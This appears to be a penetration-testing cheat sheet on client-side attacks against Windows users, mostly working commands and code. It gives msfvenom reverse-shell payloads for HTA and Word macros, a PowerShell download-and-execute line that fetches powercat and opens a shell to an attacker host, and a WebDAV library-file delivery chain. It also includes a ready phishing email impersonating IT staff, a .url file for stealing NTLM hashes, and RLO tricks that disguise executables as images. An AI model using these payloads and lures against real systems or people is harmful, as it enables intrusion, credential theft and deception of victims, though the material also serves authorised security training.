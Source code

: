 ### http application attack(works against Internet Explorer and to some extent Microsoft Edge)
```
1. msfvenom -p windows/shell_reverse_tcp(windows/x64/shell_reverse_tcp,windows/x64/meterpreter/reverse_tcp) LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o evil.hta
```

### office word macro development(vba script)
```
1. msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.4 LPORT=4444 -f vba -o evil
2. open word document and edit macro, copy paste then save as doc,docm
3. open a listener
```

### Evading Protected View
>This Microsoft Word document is highly effective when served locally, but when served from the Internet, say through an email or a download link, we must bypass another layer of protection known as Protected View,1 which disables all editing and modifications in the document and blocks the execution of macros or embedded objects.

### Windows library files
```
kali:
pip3 install wsgidav
mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

Windows:
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.119.2(LHOST)</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
Save as config.Library-ms

Create .Ink shotcut file with command:
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');powercat -c 192.168.119.3 -p 4444 -e powershell"
Save as automatic_configuration,put it in Lhost's webdav folder

Delivery config.Library-ms via email for triggering victim to click short link:

Hello! My name is Dwight, and I'm a new member of the IT Team.

This week I am completing some configurations we rolled out last week.
To make this easier, I've attached a file that will automatically
perform each step. Could you download the attachment, open the
directory, and double-click "automatic_configuration"? Once you
confirm the configuration in the window that appears, you're all done!

If you have any questions, or run into any problems, please let me
know!

Lhost: nc -nlvp 4444
Lhost: python3 -m http.server
```
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/ddb6330f-410c-4fd5-ad65-0baf3f7e9a96)
### Url File Fishing
```
1. Create file called "@hax.url" with following content:
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.45.188(kali ip)\%USERNAME%.icon
IconIndex=1

2. if SMB share has write permission, upload @hax.url onto smb share
3. sudo responder -I tun0 -Av
Then you get ntlmv2 hash
```
### Office Macro Using Powershell base64 encoded reverse shell
1. Original Powershell Payload
```
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.181:8000/powercat.ps1');powercat -c 192.168.45.181 -p 4444 -e powershell
```
2.![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/1d716a30-3a3b-423a-bc1e-c0c3c346240e)
3. Using python to split and concatenate
```
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."
n = 50
for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
4. Copy Macro script and convince victim to enable content
```
Sub AutoOpen()
    MyMacro
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub MyMacro()
    Dim Str As String
    
    Str = Str + "powershell.exe -nop -w hidden -enc SQBFAFgAKABOAGU"
        Str = Str + "AdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAd"
        Str = Str + "AAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwB"
    ...
        Str = Str + "QBjACAAMQA5ADIALgAxADYAOAAuADEAMQA4AC4AMgAgAC0AcAA"
        Str = Str + "gADQANAA0ADQAIAAtAGUAIABwAG8AdwBlAHIAcwBoAGUAbABsA"
        Str = Str + "A== "

    CreateObject("Wscript.Shell").Run Str
End Sub
```
### Change exe file into picture
ResourceHacker
### Use RLO change file extension from exe into jpg
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/01bc9bde-67d9-46ec-8776-6a29bec48bed)
![image](https://github.com/KiritoLoveAsuna/Penetration-Testing/assets/38044499/3a1260b7-3772-45f6-9f7f-1ea501814662)
